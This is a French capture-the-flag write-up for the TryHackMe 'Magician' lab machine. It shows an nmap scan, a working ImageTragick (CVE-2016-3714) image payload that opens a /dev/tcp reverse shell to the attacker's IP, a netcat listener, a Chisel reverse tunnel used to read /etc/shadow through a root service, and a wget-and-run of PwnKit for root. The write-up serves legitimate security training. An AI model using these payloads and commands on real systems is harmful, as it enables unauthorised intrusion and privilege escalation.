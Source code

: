 # Magician !

La VM traite de ImageMagik et de la CVE-2016-3714.
On va tester tout cela ! :)

# Enum
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 08:11 EST
Nmap scan report for 10.10.56.0
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.07 seconds
```
On vois ici 3 port, le 21 pour FTP, et 8080,8081 pour un serveur web.
URL : http://10.10.56.0:8081/

Il s'agit d'un site qui convertie les images .png en .jpg.

# Exploit
Il parle de la **CVE-2016-3714** qui est une CVE concernant ImageMagik et permet d'executer des commandes via une fausse image (ou une vrai piéger :))

Plus d'info et exploit [ici](https://www.exploit-db.com/exploits/39767)
On va utiliser le payload trouvable sur le repo de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick)

On créer donc un fichier avec l'extension **.png**
```
nano test.png
```
Puis on colle le payload dedans:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.14.59.209/1234 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
Ensuite, il sufit d'ouvrir un listener:
```
nc -lnvp 1234
```
puis d'upload le fichier sur le site, et nous voila avec un revshell :
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.56.0] 43670
sh: cannot set terminal process group (986): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
# Privesc to root !
Dans le dossier /home de l'user **magician** on retrouve ce fichier:
```
spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
On regarde ce qu'il y a dedans a la recherche d'information utile:
```
jar -tf spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
Plein de chose mais rien d'utile.

Je lance copie Linpeas et l'execute, il trouve un truc intéressant:
```                                                                                                            
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      986/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Le port 6666 est suspect.

Je vais le rerouter vers moi afin de voir ce qu'il y a derriere, pour cela, je vais utiliser l'outil [Chisel](https://github.com/jpillora/chisel) qui est un tunel TCP/UDP.
Je démarre le tunel sur ma machine :
```
chisel server -p 9001 --reverse
2023/12/05 11:10:57 server: Reverse tunnelling enabled
2023/12/05 11:10:57 server: Fingerprint ad4CZVn3A4nUKA0Xmv8X+I1tceh7Oczf2HmRcETN7xw=
2023/12/05 11:10:57 server: Listening on http://0.0.0.0:9898
```
Je copie et lance Chisel en mode client sur la machine cible:
```
./chisel client 10.14.59.209:9001 R:9002:127.0.0.1:6666
```
Je tombe sur une page web qui me demande d'entrer le nom d'un fichier.
J'entre **/etc/passwd** et cela me le renvoi encoder en base64.
Je tente avec **/etc/shadow** et je le recoit aussi en base64.

Cela veux dire que cette application a les droits **root**.

Je regarde donc **/root/root.txt** pour voir et je récupère bien le flag :
```
THM{magic_*******************_mad}
```
# Root cheat mod !
Pareil que pas mal de VM présente sur THM, elle est vulnérable avec PwnKit :
```
magician@magician:/tmp$ wget 10.14.59.209/PwnKit
--2023-12-05 10:06:32--  http://10.14.59.209/PwnKit
Connecting to 10.14.59.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.03s   

2023-12-05 10:06:32 (508 KB/s) - ‘PwnKit’ saved [18040/18040]

magician@magician:/tmp$ chmod +x PwnKit 
magician@magician:/tmp$ ./PwnKit 
root@magician:/tmp#
```
